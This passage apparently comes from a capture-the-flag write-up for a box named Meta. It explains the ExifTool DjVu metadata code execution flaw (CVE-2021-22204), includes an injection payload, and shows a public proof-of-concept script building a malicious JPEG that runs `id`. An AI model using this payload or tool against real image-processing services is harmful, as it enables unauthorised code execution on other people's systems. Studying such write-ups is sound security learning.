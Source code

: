 Putting something that looks like the following into the DjVu metadata
will cause `exiftool` to run \` date\` and show the output in the
result:



    (metadata
        (Author "\
    " . return `date`; #")
    )



#### POC

There are a ton of POCs that can be found by Goolging for
"CVE-2021-22204 POC". I liked [this
one](https://github.com/UNICORDev/exploit-CVE-2021-22204) because it's
written in Python and has a nice user interface.

When I first try to run it, it errors out saying I am missing the DjVu
support libraries, which I'll install with
`sudo apt install djvulibre-bin`. Then I can run it, giving a command to
run. I'll start with `id`:



    oxdf@hacky$ python /opt/exploit-CVE-2021-22204/exploit-CVE-2021-22204.py -c 'id'

            _ __,~~~/_        __  ___  _______________  ___  ___
        ,~~`( )_( )-\|       / / / / |/ /  _/ ___/ __ \/ _ \/ _ \
            |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
    _V__v___!_!__!_____V____\____/_/|_/___/\___/\____/_/|_/____/....
        
    UNICORD: Exploit for CVE-2021-22204 (ExifTool) - Arbitrary Code Execution
    PAYLOAD: (metadata "\c${system('id')};")
    DEPENDS: Dependencies for exploit are met!
    PREPARE: Payload written to file!
    PREPARE: Payload file compressed!
    PREPARE: DjVu file created!
    PREPARE: JPEG image created/processed!
    PREPARE: Exiftool config written to file!
    EXPLOIT: Payload injected into image!
    CLEANUP: Old file artifacts deleted!
    SUCCESS: Exploit image written to "image.jpg"



It compresses the DjVu format into a `.jpg` file. On uploading that to
Meta, there's execition:
